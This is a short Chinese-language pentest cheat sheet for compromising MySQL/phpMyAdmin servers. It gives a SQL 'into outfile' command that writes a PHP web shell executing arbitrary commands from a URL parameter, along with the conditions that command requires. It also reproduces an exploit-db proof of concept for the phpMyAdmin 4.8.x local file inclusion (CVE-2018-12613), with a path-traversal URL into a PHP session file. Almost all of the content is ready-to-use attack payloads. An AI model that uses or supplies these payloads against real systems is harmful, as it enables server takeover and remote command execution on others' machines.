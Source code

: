 # 高权限直接写shell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/getshell.php";
```
需要满足的条件
- 网站的绝对路径。
- 拥有可写权限
- 是union注入(如果是注入的话)


# 本地文件包含Version: 4.8.0, 4.8.1
https://www.exploit-db.com/exploits/40185
```
# Exploit Title: phpMyAdmin 4.8.1 - Local File Inclusion to Remote Code Execution
# Date: 2018-06-21
# Exploit Author: VulnSpy
# Vendor Homepage: http://www.phpmyadmin.net
# Software Link: https://github.com/phpmyadmin/phpmyadmin/archive/RELEASE_4_8_1.tar.gz
# Version: 4.8.0, 4.8.1
# Tested on: php7 mysql5
# CVE : CVE-2018-12613

1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```